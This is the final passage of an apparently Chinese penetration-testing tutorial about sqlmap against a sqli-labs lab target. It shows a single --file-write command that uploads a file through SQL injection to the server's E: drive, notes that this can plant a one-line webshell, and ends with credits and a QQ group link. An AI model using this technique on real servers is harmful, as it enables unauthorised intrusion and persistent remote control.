 所以利用上传文件，我们可以上传一句话木马或者上传 shell 上去。

```
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-write test.txt --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzYcNepbjLG6aTPpgB22kxhzwAIAo9hkoaqkwrBwr1MOnaPM9JGI0JWA/640?wx_fmt=png)

这里会问我们是否想验证上传成功，我们选择 y 的话，他就会读取该文件的大小，并且和本地的文件大小做比较，只要大于等于本地文件大小即说明上传功能了![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzmzJozj1s3tFJBMll6uT2A01WoWkUq6OY2316ibD3GFfr86HMwZianQQQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzcbc55FXlenqyBiahUBokG3ib7pPQBfhRaXicaAtHwQtgvLnzq5Jibh0bXg/640?wx_fmt=gif)

来源：谢公子博客

责编：浮夸

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2edCjiaG0xjojnN3pdR8wTrKhibQ3xVUhjlJEVqibQStgROJqic7fBuw2cJ2CQ3Muw9DTQqkgthIjZf7Q/640?wx_fmt=png)

由于文章篇幅较长，请大家耐心。如果文中有错误的地方，欢迎指出。有想转载的，可以留言我加白名单。

最后，欢迎加入谢公子的小黑屋（安全交流群）(QQ 群：783820465)

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SjCxEtGic0gSRL5ibeQyZWEGNKLmnd6Um2Vua5GK4DaxsSq08ZuH4Avew/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?wx_fmt=png)